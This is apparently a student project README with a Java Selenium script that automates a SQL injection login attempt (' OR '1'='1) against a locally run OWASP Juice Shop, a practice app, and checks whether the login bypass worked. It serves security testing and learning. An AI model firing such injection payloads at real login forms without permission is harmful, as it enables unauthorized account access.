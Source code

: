 # Selenium SQL Injection Test for Juice Shop

## Overview

This project demonstrates an SQL Injection attack test on the Juice Shop web application using Selenium WebDriver with Firefox. The test script attempts to log in using an SQL injection payload to check the vulnerability of the application.

## Assumptions

1. **Juice Shop Setup**: The Juice Shop application is running locally at `http://localhost:3000/`.
2. **Browser**: Mozilla Firefox is installed on the system.
3. **GeckoDriver**: GeckoDriver is installed and its path is correctly set in the script (`D:/internship_java/geckodriver.exe`).

## Approach

1. **Setup**: Initialize the WebDriver and configure it to use Firefox.
2. **Navigate to Login Page**: Open the Juice Shop login page.
3. **SQL Injection Payload**: Use a malicious username (`' OR '1'='1`) to attempt an SQL injection attack.
4. **Submit Form**: Enter the payload in the username field, provide a valid password, and submit the form.
5. **Analyze Response**: Check the response to determine if the SQL injection succeeded.
6. **Exception Handling**: Handle any potential exceptions that may occur during the test execution.

## Test Execution Steps

1. **Initialize WebDriver**: 
   - Set the path for GeckoDriver.
   - Configure Firefox options.

2. **Navigate to Juice Shop**:
   - Open `http://localhost:3000/`.
   - Ensure the page loads by checking the title contains "Juice Shop".

3. **Perform SQL Injection**:
   - Locate the username and password fields.
   - Enter the SQL injection payload in the username field and a valid password.
   - Submit the login form.

4. **Analyze Response**:
   - Check if the response contains "Invalid username or password" or "Welcome" to determine if the SQL injection was successful.

5. **Exception Handling**:
   - Use `try-catch` blocks to handle exceptions such as `NoSuchElementException` or `TimeoutException`.
   - Log exceptions for debugging purposes.

## Code

```java
import org.openqa.selenium.By;
import org.openqa.selenium.WebDriver;
import org.openqa.selenium.WebElement;
import org.openqa.selenium.firefox.FirefoxDriver;
import org.openqa.selenium.firefox.FirefoxOptions;
import org.openqa.selenium.support.ui.ExpectedConditions;
import org.openqa.selenium.support.ui.WebDriverWait;

import java.util.concurrent.TimeUnit;

public class JuiceShopSQLiTest {

    public static void main(String[] args) {
        // Set the path for the GeckoDriver
        System.setProperty("webdriver.gecko.driver", "D:/internship_java/geckodriver.exe");

        // Initialize WebDriver
        FirefoxOptions options = new FirefoxOptions();
        WebDriver driver = new FirefoxDriver(options);

        try {
            // Navigate to the login page
            String localLoginPageUrl = "http://localhost:3000";
            driver.get(localLoginPageUrl);

            // Locate the username and password input fields
            WebElement usernameField = driver.findElement(By.name("username"));
            WebElement passwordField = driver.findElement(By.name("password"));

            // Construct the SQL injection payload
            String maliciousUsername = "' OR '1'='1";
            String validPassword = "password"; // Replace with an actual valid password

            // Enter the malicious username and password
            usernameField.sendKeys(maliciousUsername);
            passwordField.sendKeys(validPassword);

            // Submit the form
            WebElement loginButton = driver.findElement(By.cssSelector("input[type='submit']"));
            loginButton.click();

            // Wait for the response
            driver.manage().timeouts().implicitlyWait(5, TimeUnit.SECONDS);

            // Analyze the response
            WebElement body = driver.findElement(By.tagName("body"));
            String bodyText = body.getText();

            if (bodyText.contains("Invalid username or password")) {
                System.out.println("SQL Injection attempt failed.");
            } else if (bodyText.contains("Welcome")) {
                System.out.println("SQL Injection attempt succeeded.");
            } else {
                System.out.println("Unexpected response.");
            }

            // Now navigate to the Juice Shop website
            String juiceShopUrl = "http://localhost:3000/";
            System.out.println("Navigating to: " + juiceShopUrl);
            driver.get(juiceShopUrl);

            // Wait for the page to load completely
            WebDriverWait wait = new WebDriverWait(driver, 15);  // Increased timeout
            wait.until(ExpectedConditions.titleContains("Juice Shop"));

            // Find the login button and attempt to click it
            WebElement juiceShopLoginButton = driver.findElement(By.id("loginButton"));

            // Wait for the overlay to become invisible or clickable
            wait.until(ExpectedConditions.invisibilityOfElementLocated(By.id("mat-dialog-0")));

            // Click on the login button
            juiceShopLoginButton.click();

            // Perform further actions after successful login click
            // For example, enter username, password, and submit the form

        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            // Close the browser
            driver.quit();
        }
    }
}
```

## Exception Handling

- **TimeoutException**: Handled by increasing the wait time to allow the page to load.
- **NoSuchElementException**: Handled by verifying the element locators and ensuring the application is correctly loaded.
- **General Exceptions**: Caught using a generic `catch` block to log any unexpected errors during test execution.

## Conclusion

This test script demonstrates an automated approach to testing for SQL injection vulnerabilities using Selenium WebDriver. Ensure the Juice Shop application is running and accessible, and that GeckoDriver and Firefox are correctly installed and configured on your system.

![login page](https://github.com/arjun98k/java_selenium_task/blob/main/login%20page.png)

![invalid username password](https://github.com/arjun98k/java_selenium_task/blob/main/invalid_username_password.png)


![sqli test logs of terminal](https://github.com/arjun98k/java_selenium_task/blob/main/logs%20of%20terminal.png)
